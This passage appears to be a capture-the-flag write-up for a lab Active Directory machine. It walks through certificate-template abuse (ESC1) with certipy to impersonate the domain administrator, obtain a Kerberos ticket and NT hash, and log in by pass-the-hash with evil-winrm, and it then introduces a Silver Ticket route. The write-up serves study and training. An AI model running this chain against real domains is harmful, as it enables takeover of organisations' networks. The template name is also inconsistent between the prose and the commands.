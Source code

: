 The danger here is that sequel\Domain Users has Enrollment Rights for the certificate (this is scenario 3 in the Certify README). Enroll in the VulnTemplate template, which can be used for client authentication and has ENROLLEE_SUPPLIES_SUBJECT set (ESC1).

##### Exploit it via certify
```bash
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target dc.sequel.htb -template UserAuthentication
certipy req -username Ryan.Cooper@sequel.htb -password NuclearMosquito3 -ca sequel-DC-CA -target dc.sequel.htb -template UserAuthentication -upn 'administrator@sequel.htb'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 13
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

Note: If you get the error The NETBIOS connection with the remote host timed out. please re-run the command via `sudo ntpdate -u dc.sequel.htb`. (Now that we have a certificate for the administrator we can use certipy once more to get a Ticket Granting Ticket (TGT) and extract the NT hash for this user. Since this step requires some Kerberos interaction, we
need to synchronize our clock to the time of the remote machine before we can proceed.)

Then you can transform the generated certificate to `.pfx` format and use it to authenticate using Rubeus or certipy again:

```bash
sudo ntpdate -u sequel.htb
2023-11-17 23:33:48.667895 (+1300) +28799.884939 +/- 0.066782 sequel.htb 10.10.11.202 s1 no-leap
CLOCK: time stepped by 28799.884939

certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'sequel.htb' -dc-ip $IP

faketime '2023-11-17 23:33:48' certipy auth -pfx 'administrator.pfx'

Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee

evil-winrm -i $IP -u administrator -H a52f78e4c751e5f5e17e1e9f3e58f4ee
```

`faketime` save the day!

# Bonus with Silver Ticket
The way that this machine is set up allows for another interesting solution. More specifically, this alternative
approach requires us to have at least reached the point that we have the clear text password for the user
sql_svc . This step is extremely important since this is a user account that runs the MSSQL service meaning
that tickets to access this service will be encrypted with the password of the sql_svc user.
